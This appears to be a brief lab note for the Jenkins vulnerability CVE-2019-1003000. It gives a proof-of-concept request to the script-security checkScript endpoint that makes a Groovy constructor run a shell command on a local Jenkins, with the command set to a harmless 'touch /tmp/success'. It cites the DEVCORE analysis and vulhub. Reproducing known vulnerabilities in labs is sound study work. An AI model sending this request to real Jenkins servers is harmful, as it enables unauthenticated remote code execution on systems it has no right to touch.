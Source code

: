 # CVE-2019-1003000

rce：

```
http://localhost:37280/securityRealm/user/admin/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript
?sandbox=true
&value=public class x {
  public x(){
    "touch /tmp/success".execute()
  }
}
```



## References

[Hacking Jenkins Part 2 - Abusing Meta Programming for Unauthenticated RCE! | DEVCORE 戴夫寇爾](https://devco.re/blog/2019/02/19/hacking-Jenkins-part2-abusing-meta-programming-for-unauthenticated-RCE/)

[vulhub/jenkins/CVE-2018-1000861 at master · vulhub/vulhub](https://github.com/vulhub/vulhub/tree/master/jenkins/CVE-2018-1000861)